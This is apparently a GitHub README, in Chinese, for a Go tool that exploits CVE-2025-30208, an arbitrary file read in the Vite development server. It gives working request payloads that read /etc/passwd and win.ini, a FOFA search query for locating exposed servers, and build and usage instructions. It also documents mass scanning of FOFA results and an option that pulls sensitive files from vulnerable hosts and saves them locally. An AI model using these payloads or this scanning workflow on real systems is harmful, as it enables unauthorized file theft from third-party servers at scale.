 # CVE-2025-30208
针对CVE-2025-30208的简单漏洞利用
## 漏洞介绍
CVE-2025-30208：Vite开发服务器任意文件读取漏洞，漏洞覆盖面大，且利用简单不受限制。

### 漏洞POC：

>Windows: /@fs/C://Windows/win.ini?import&raw??
> 
> Linux: /@fs/etc/passwd?import&raw??

### Fofa测绘语法：
> body="/@vite/client"

## 脚本使用介绍
### 编译说明
进入到项目根目录

先同步一下依赖
> go mod tidy

然后编译项目
>  go build -o CVE_2025_30208 -ldflags="-s -w" -trimpath .

` ./CVE_2025_3020`即可运行该脚本。

当然你也可以直接在项目根目录下运行该项目:
> go run . 

### 配置
脚本支持联动fofa搜索资产然后进行批量检测。

要想使用fofa，要确保app.ini文件和编译后的二进制文件在同一目录，并且需要修改app.ini文件，其中的fofakey字段填上自己的fofakey，num是自己估摸要检测的大概资产数量。

如果你有针对该漏洞更好的fofa测绘语法，可以自行修改fofaQuery字段。

### 命令行参数介绍
> Usage of ./CVE_2025_30208:

| 参数                    |                             描述                             |
| ----------------------- | :----------------------------------------------------------: |
| -fofa                   | 指定该参数后，会联动fofa测绘资产，对得到的目标资产进行批量检测 |
| -u    \|    -url        |                指定单个url目标，对其进行检测                 |
| -f     \|     -filename |            指定一个文件名，批量检测其中的url地址             |
| -e                      | 指定该参数后，会对检测存在漏洞的资产进行深度利用，读取各种可能存在的敏感文件并保存在本地。(请谨慎使用该功能，最好是对单个目标检测，也就是使用-u时加上该参数) |

> 说明：
> 
> 1. 批量检测一个文件中的所有目标URL，确保文件中每行一个URL即可，URL可以是包含http的完整URL，也可以是一个域名或者ip，比如：
   ````text
     http://example1.com 
     example2.com
     127.0.0.1
   ````
> 2. 当指定-fofa和-f参数进行检测后，会自动将存在漏洞的资产保存到当前文件下，文件名格式为"当下时间戳.csv"。
> 
> 3. 同时支持对linux和windows平台进行利用，利用的字典分别为linux_sensitive_path.txt和windows_sensitive_path.txt，如果有更多敏感路径，可以自己在相应的字典中进行添加。